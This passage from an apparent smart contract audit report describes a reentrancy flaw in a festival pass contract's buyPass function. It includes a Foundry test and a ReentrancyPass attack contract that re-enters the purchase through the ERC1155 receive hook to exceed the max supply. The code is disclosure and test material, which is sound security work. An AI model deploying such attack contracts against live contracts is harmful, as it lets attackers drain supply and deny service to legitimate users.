 ```solidity
}
```

### Risk

**Likelihood**:
- Reentrancy is a well-known and commonly exploited vulnerability, especially in token contracts that interact with untrusted recipients.
- Once `passSupply` is closed to `passMaxSupply` or attacker has enough fund, this vulnerability will be exploited in a single transaction, no special privileges are required

**Impact**:
- Break the core business logic and trust assumptions of the protocol
- **DoS**: Other legitimate users will be unable to purchase passes

### Proof of Concept
Add the following test and exploit contract:
```solidity
// add this test
function test_buyPass_reentrant() public {
    // Configure a pass with max supply of 1
    vm.prank(organizer);
    festivalPass.configurePass(1, GENERAL_PRICE, 1);
    assertEq(festivalPass.passMaxSupply(1), 1);
    console.log("General Pass max supply: ", festivalPass.passMaxSupply(1));

    vm.startPrank(user1);
    ReentrancyPass exploit = new ReentrancyPass{value: 0.5 ether}(festivalPass, beatToken);
    exploit.exploit();
    vm.stopPrank();
    assertEq(festivalPass.balanceOf(address(exploit), 1), 2);
    console.log("Exploit has purchased %s passes: ", festivalPass.balanceOf(address(exploit), 1));
}


// attack contract
contract ReentrancyPass is IERC1155Receiver {
    FestivalPass public festivalPass;
    BeatToken public beatToken;

    uint256 mint_amount;

    constructor(FestivalPass _festivalPass, BeatToken _beatToken) payable {
        festivalPass = _festivalPass;
        beatToken = _beatToken;
    }

    function exploit() external {
        festivalPass.buyPass{value: 0.05 ether}(1);
    }

    function onERC1155Received (
        address,
        address,
        uint256,
        uint256,
        bytes calldata
    ) external returns (bytes4) {

        // mint one more pass
        if (++mint_amount < 2) {
            festivalPass.buyPass{value: 0.05 ether}(1);
        }
        return this.onERC1155Received.selector;
```
